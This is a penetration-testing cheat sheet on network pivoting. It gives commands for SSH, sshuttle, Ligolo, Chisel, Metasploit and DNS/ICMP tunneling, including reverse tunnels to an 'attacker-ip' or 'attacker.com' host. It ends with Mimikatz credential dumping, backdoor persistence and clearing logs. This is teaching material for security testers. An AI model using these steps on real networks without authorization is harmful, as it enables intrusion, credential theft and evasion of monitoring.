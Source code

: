 # Pivoting in Penetration Testing

## Introduction
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources. 

- Table of Contents
- [Types of Pivoting](#types-of-pivoting)
- [Pre Pivot](#pre-pivot)
  - [Compromise an Initial Host](#compromise-an-initial-host)
  - [Identify Network Interfaces](#identify-network-interfaces)
  - [Enumerate Internal Network](#enumerate-internal-network)
- [Pivoting](#pivoting)
  - [SSH Pivoting (Dynamic and Local Port Forwarding)](#ssh-pivoting-dynamic-and-local-port-forwarding)
  - [SSHuttle Pivoting](#sshuttle-pivoting)
  - [Ligolo (Auto Route Creation)](#ligolo-auto-route-creation)
- [Post Pivoting](#post-pivoting)
  - [Routing Traffic Through Compromised Host](#routing-traffic-through-compromised-host)
  - [Exploit Further and Move Laterally](#exploit-further-and-move-laterally)
  - [Maintain Access and Cover Tracks](#maintain-access-and-cover-tracks)

--- 
## Types of Pivoting
- **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
- **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
- **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
- **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
- **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
- **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
- **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
- **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
- **ICMP Tunneling** - Encapsulating data within ICMP packets.
- **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

--- 
# Pre Pivot 
- ## Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.
- ## Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```
  Identify internal IP ranges that may indicate private networks.

- ## Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).
--- 
# Pivoting
  - ## SSH Pivoting (Dynamic and Local Port Forwarding)
      - Improper pivot as some of the reuest will not work.
      - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
      - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  - ## SSHuttle Pivoting
      - Improper pivot as some of the reuest will not work.
      - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
      - Explained `sshuttle -r user@target internal_ip/24`.
  - ## Ligolo (Auto Route Creation)
      - Setup network configuration
        ```bash
            ip tuntap add user root mode tun ligolo
            ip link set ligolo up
        ```
      - On attacker's machine: `./ligolo -reverse -listen :9090`
      - On compromised machine: `./ligolo -connect attacker-ip:9090`
      - Type on proxy
        ```bash
        session
        start
        ifconfig
        ```
      - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
         ```bash
         ip route add 192.168.148.0/24 dev ligolo
         ip route list
         ```
  - ## Chisel (Fast TCP/UDP Tunneling)
      - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
      - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
        
  - ## Metasploit Pivoting
      - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
      - Use socks4a module to enable ProxyChains:
        ```bash
        use auxiliary/server/socks4a
        set SRVPORT 1080
        exploit
        ```
  - ## Plink (PuTTY Link) Pivoting
      - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  - ## RDP Pivoting
      - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  - ## ICMP Tunneling
      - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  - ## DNS Tunneling
      - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

---
# Post Pivoting
- ## Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

- ## Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

- ## Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.
